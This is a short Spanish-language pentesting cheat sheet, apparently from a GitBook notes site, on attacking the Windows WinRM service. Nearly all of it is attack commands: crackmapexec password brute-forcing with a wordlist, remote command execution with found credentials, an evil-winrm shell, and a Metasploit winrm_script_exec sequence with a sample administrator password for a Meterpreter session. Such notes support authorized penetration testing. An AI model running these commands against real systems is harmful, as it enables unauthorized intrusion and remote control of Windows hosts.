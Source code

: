 # WinRM

## Fuerza Bruta

### Crackmapexec

Para hacer fuerza bruta con crackmapexec usaremos el siguiente comando:

```bash
crackmapexec winrm 192.168.1.1 -u usuario -p /ruta/diccionario
```

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

Una vez con credenciales, podemos ejecuatr comandos a través de cracmapexec:

```
crackmapexec winrm 192.168.1.1 -u usuario -p contraseña -x "comando"
```

<figure><img src="../../.gitbook/assets/image (103).png" alt=""><figcaption></figcaption></figure>

Después, con el uso de un script en ruby, podremos tener acceso a una termina:

```bash
evil-winrm.rb -u usuario -p 'contraseña' -i 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

## Obtener una shell meterpreter

Paar el uso de este modulo es necesario tener credenciales:

```perl
msfconsole

use exploit/windows/winrm/winrm_script_exec

set RHOSTS 10.0.0.173

set USERNAME administrator

set PASSWORD tinkerbell

set FORCE_VBS true

exploit
```

<figure><img src="../../.gitbook/assets/image (105).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (106).png" alt=""><figcaption></figcaption></figure>

